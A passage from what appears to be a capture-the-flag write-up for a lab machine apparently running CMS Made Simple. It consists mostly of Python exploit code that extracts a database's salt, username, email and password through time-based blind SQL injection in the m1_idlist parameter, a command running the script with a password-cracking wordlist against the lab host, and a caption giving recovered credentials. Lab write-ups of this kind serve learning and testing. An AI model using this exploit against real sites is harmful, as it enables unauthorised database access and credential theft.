 ```python
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print(colored("[*] Now try to crack password"))
    crack_password()

beautify_print()
```

```bash
python3 exploit.py -u http://10.10.252.182/simple/ -w /usr/share/wordlists/rockyou.txt -c
```

<figure><img src="../.gitbook/assets/image (116).png" alt=""><figcaption><p>mitch : secret</p></figcaption></figure>
